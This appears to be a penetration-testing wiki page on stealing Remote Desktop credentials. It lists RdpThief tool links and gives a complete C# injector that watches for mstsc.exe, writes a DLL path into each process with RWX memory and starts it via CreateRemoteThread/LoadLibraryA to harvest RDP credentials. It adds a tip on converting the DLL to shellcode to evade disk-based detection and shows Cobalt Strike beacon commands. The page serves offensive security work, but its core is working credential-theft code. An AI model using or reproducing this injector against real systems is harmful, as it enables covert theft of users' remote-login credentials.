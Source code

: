 ```yaml
---
description: Remote Desktop Protocol
---
```


# RDP




## RdpThief

* [https://github.com/0x09AL/RdpThief](https://github.com/0x09AL/RdpThief)
* [https://github.com/S3cur3Th1sSh1t/RDPThiefInject](https://github.com/S3cur3Th1sSh1t/RDPThiefInject)
* [https://github.com/snovvcrash/SharpRdpThief](https://github.com/snovvcrash/SharpRdpThief)
* [https://github.com/passthehashbrowns/SharpRDPThief](https://github.com/passthehashbrowns/SharpRDPThief)
* [https://github.com/proxytype/RDP-THIEF](https://github.com/proxytype/RDP-THIEF)
* [https://github.com/0xEr3bus/RdpStrike](https://github.com/0xEr3bus/RdpStrike)

Some custom code that waits for `mstsc.exe` to be run and loads the malicious library into it:

{% code title="RdpThiefInjector.cs" %}
```csharp
using System;
using System.Threading;
using System.Diagnostics;
using System.Collections.Generic;
using System.Runtime.InteropServices;
using System.Text;

namespace RdpThiefInjector
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        public static extern IntPtr GetModuleHandle(string lpModuleName);

        static void Main(string[] args)
        {
            string dllName = @"C:\Temp\RdpThief.dll";
            HashSet<int> PIDs = new HashSet<int>();
            Console.WriteLine("[*] Joined the hunt for mstsc.exe processes...");
            while (true)
            {
                Process[] mstscProc = Process.GetProcessesByName("mstsc");
                if (mstscProc.Length > 0)
                {
                    for (int i = 0; i < mstscProc.Length; i++)
                    {
                        int processId = mstscProc[i].Id;
                        if (!PIDs.Contains(processId))
                        {
                            Console.WriteLine($"[+] Detected non-hooked process with PID={processId}");
                            IntPtr hProcess = OpenProcess(0x001F0FFF, false, processId);
                            IntPtr dllAddress = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
                            IntPtr outSize;
                            bool res = WriteProcessMemory(hProcess, dllAddress, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
                            if (res)
                            {
                                Console.WriteLine("[+] WriteProcessMemory succeeded!");
                            }
                            else
                            {
                                Console.WriteLine("[-] WriteProcessMemory failed :(");
                            }
                            IntPtr loadLibraryAddress = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
                            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLibraryAddress, dllAddress, 0, IntPtr.Zero);
                            if (hThread != null)
                            {
                                Console.WriteLine("[+] CreateRemoteThread succeeded!");
                                Console.WriteLine($"[*] Process {processId} is now hooked, look for creds in \"{System.IO.Path.GetTempPath()}\"");
                                PIDs.Add(processId);
                            }
                            else
                            {
                                Console.WriteLine("[-] CreateRemoteThread failed :(");
                            }
                        }
                    }
                }
                Thread.Sleep(5000);
            }
        }
    }
}
```
{% endcode %}

{% hint style="info" %}
The DLL can be converted to shellcode with [ConvertToShellcode.py](https://github.com/monoxgas/sRDI/blob/master/Python/ConvertToShellcode.py) (sRDI approach) and then be [injected](/pentest/infrastructure/ad/av-edr-evasion/code-injection/process-injectors#classic-process-injection) into the target process. That would help to avoid dropping the DLL to disk:

```
beacon> rdpthief_enable
beacon> rdpthief_dump
beacon> rdpthief_disable
```
{% endhint %}




## Abusing CredSSP / TSPKG

* [https://clement.notin.org/blog/2019/07/03/credential-theft-without-admin-or-touching-lsass-with-kekeo-by-abusing-credssp-tspkg-rdp-sso/](https://clement.notin.org/blog/2019/07/03/credential-theft-without-admin-or-touching-lsass-with-kekeo-by-abusing-credssp-tspkg-rdp-sso/)
